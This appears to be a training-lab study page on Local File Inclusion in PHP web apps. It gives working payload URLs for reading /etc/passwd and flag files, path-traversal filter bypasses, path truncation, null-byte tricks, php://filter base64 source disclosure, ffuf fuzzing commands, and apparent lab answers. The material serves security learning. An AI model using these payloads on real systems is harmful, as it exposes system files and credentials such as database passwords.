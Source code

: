 # 🤽‍♀️ File Disclosure

## Local File Inclusion (LFI)

Let's see how we can exploit these vulnerabilities in different scenarios to be able to read the content of local files on the back-end server.

Imagine a web app where we can choose language ->

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

if the web application is pulling a file that is now being included in the page, we may be able to change the file being pulled to read the content of a different local file.

```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Sometimes we will need to use relatives paths and going back to root ->

```
http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd
```

A more advanced LFI attack is a `Second Order Attack`. This occurs because many web application functionalities may be insecurely pulling files from the back-end server based on user-controlled parameters.

For example, a web application may allow us to download our avatar through a URL like (`/profile/$username/avatar.png`). If we craft a malicious LFI username (e.g. `../../../etc/passwd`), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.

_**Using the file inclusion find the name of a user on the system that starts with "b".**_

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Submit the contents of the flag.txt file located in the /usr/share/flags directory.**_

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Basic Bypasses

One common LFI filter is one that deletes substrings of (`../`), to bypass this if we use `....//` as our payload, then the filter would remove `../` and the output string would be `../` as well as `..././` or `....\/` and several other recursive LFI payloads. Furthermore, in some cases, escaping the forward slash character may also work to avoid path traversal filters (e.g. `....\/`), or adding extra forward slashes (e.g. `....////`)

Another way of bypassing would be to URL encode `../` into `%2e%2e%2f`, which may bypass the filter

<figure><img src="../../../.gitbook/assets/image (1380).png" alt=""><figcaption></figcaption></figure>

{% content-ref url="../command-injections/" %}
[command-injections](../command-injections/)
{% endcontent-ref %}

Some web applications may also use Regular Expressions to ensure that the file being included is under a specific path. Let's say we can call paths that are under the `./languages ,` we could start our payload with the approved path, and then use `../` to go back to the root directory

```
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```

***

some web applications append an extension to our input string (e.g. `.php`), to ensure that the file we include is in the expected extension.

In earlier versions of PHP, defined strings have a maximum length of 4096 characters

PHP also used to remove trailing slashes and single dots in path names, so if we call (`/etc/passwd/.`) then the `/.` would also be truncated, and PHP would call (`/etc/passwd`)

it is also important to note that we would also need to `start the path with a non-existing directory` for this technique to work.

```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Here is a command to do that ->

```shell-session
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

***

PHP versions before 5.5 were vulnerable to `null byte injection`, which means that adding a null byte (`%00`) at the end of the string would terminate the string and not consider anything after it.

_**The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt**_

```
http://94.237.54.205:42808/index.php?language=languages/....//....//....//....//flag.txt
```

## PHP Filters

If we identify an LFI vulnerability in PHP web applications, then we can utilize different [PHP Wrappers](https://www.php.net/manual/en/wrappers.php.php) to be able to extend our LFI exploitation

[PHP Filters](https://www.php.net/manual/en/filters.php) are a type of PHP wrappers,where we can pass different types of input and have it filtered by the filter we specify. To use PHP wrapper streams, we can use the `php://` scheme in our string, and we can access the PHP filter wrapper with `php://filter/`. We will mainly use the parameters `resource` and `read`.\
There are 4 main filters: [String Filters](https://www.php.net/manual/en/filters.string.php), [Conversion Filters](https://www.php.net/manual/en/filters.convert.php), [Compression Filters](https://www.php.net/manual/en/filters.compression.php), and [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)

To find php pages:

```shell-session
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

If we wanted to read the code from config.php or any php file we found, we could think of doing the following:

```
http://<SERVER_IP>:<PORT>/index.php?language=config
```

But since it's not HTML it would not render anything but we could disclose their sources with the `base64` PHP filter

```url
php://filter/read=convert.base64-encode/resource=config
```

Which would give this ->

```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And now we just need to decode the code with:

```shell-session
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```

_**Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer**_

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.255.40:38460/FUZZ.php
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://83.136.255.40:38460/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
